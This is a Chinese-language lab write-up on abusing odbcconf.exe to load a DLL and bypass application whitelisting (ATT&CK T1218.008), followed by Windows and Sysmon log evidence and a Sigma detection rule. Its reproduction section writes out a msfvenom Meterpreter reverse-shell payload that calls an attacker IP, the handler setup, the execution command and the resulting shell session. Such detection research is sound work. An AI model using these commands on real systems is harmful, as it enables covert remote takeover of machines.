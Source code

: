# T1218-008-win-使用Odbcconf.exe执行Payload（白名单）

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Odbcconf.exe是允许配置开放数据库连接（ODBC）驱动和数据源名称的Windows工具。攻击者也可能滥用此工具来执行动态链接库，就像带有REGSVR选项的Regsvr32一样。

odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\payload.dll}
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 2 opened (192.168.126.146:53 -> 192.168.126.149:49306) at 2020-04-18 20:45:29 +0800
[*] Session ID 2 (192.168.126.146:53 -> 192.168.126.149:49306) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rundll32.exe (912)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3820
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xfec
新进程名: C:\Windows\SysWOW64\odbcconf.exe

事件ID：4688
进程信息:
新进程 ID: 0x390
新进程名: C:\Windows\SysWOW64\rundll32.exe

sysmon日志
事件ID：1
Image: C:\Windows\SysWOW64\odbcconf.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: ODBC Driver Configuration Program
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: odbcconf.exe
CommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=B1C49B2159C237B1F2BCE2D40508113E39143F7B
ParentProcessGuid: {bb1f7c32-f65d-5e9a-0000-0010833eef00}
ParentProcessId: 3868
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

事件ID：1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=8939CF35447B22DD2C6E6F443446ACC1BF986D58
ParentProcessGuid: {bb1f7c32-f662-5e9a-0000-0010d648ef00}
ParentProcessId: 4076
ParentImage: C:\Windows\SysWOW64\odbcconf.exe
ParentCommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
```

## 检测规则/思路

### sigma规则

```yml
title: Application Whitelisting Bypass via DLL Loaded by odbcconf.exe
description: Detects defence evasion attempt via odbcconf.exe execution to load DLL
status: experimental
references:
    - https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Odbcconf.yml
    - https://twitter.com/Hexacorn/status/1187143326673330176
author: Kirill Kiryanov, Beyu Denis, Daniil Yugoslavskiy, oscd.community
date: 2019/10/25
modified: 2019/11/07
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1218
logsource:
    category: process_creation
    product: windows
detection:
    selection_1:
        Image|endswith: '\odbcconf.exe'
        CommandLine|contains:
            - '-f'
            - '/a'
            - 'regsvr'
    selection_2:
        ParentImage|endswith: '\odbcconf.exe'
        Image|endswith: '\rundll32.exe'
    condition: selection_1 or selection_2
level: medium
falsepositives:
    - Legitimate use of odbcconf.exe by legitimate user
```

### 建议

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-008

<https://attack.mitre.org/techniques/T1218/008/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>
